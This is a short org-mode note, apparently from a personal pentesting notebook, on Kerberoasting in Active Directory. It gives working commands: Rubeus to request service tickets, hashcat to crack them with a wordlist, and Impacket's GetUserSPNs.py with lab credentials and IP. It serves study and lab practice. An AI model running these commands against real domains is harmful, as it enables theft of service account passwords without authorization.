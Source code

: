 :PROPERTIES:
:ID:       78221ca4-7b41-4377-aa13-88d50a4fd30d
:END:
#+title: Kerberoasting
#+filetags: :activeDirectory:kerberos:
#+hugo_base_dir:../


* Kerberoasting
Kerberoasting allows a user to request a service ticket for any service with a registered SPN then use that ticket to crack the service password.

** Rubeus
#+begin_src shell -n
Rubeus.exe kerberoast
#+end_src
Then crack the hashes with hashcat

#+begin_src shell -n :exports
hashcat -m 13100 -a 0 hash.txt Pass.txt
#+end_src


** Impacket
#+begin_src shell -n
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip 10.10.239.179 -request
#+end_src
